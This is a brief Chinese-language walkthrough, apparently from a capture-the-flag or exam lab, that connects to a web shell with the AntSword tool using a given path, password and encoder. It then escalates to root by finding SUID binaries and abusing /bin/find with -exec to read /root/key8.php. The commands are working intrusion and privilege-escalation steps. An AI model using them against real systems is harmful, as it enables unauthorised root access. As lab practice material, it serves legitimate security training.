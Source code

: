 蚁剑连接方式
目标ip:6721/api/query_pdf.php
密码ant
编码器base64
请求信息的http body
name是archive
//

连接发现key7在
/var/www/html/PIzABXDg/key7.php

开始提权
看看哪些可以使用root权限运行
find / -perm -u=s -type f 2>/dev/null
发现很多东西
/bin/find，考场有可能是/usr/bin/find

/bin/find query_pdf.php -exec whoami \;
发现是root权限

/bin/find query_pdf.php -exec cat /root/key8.php \;
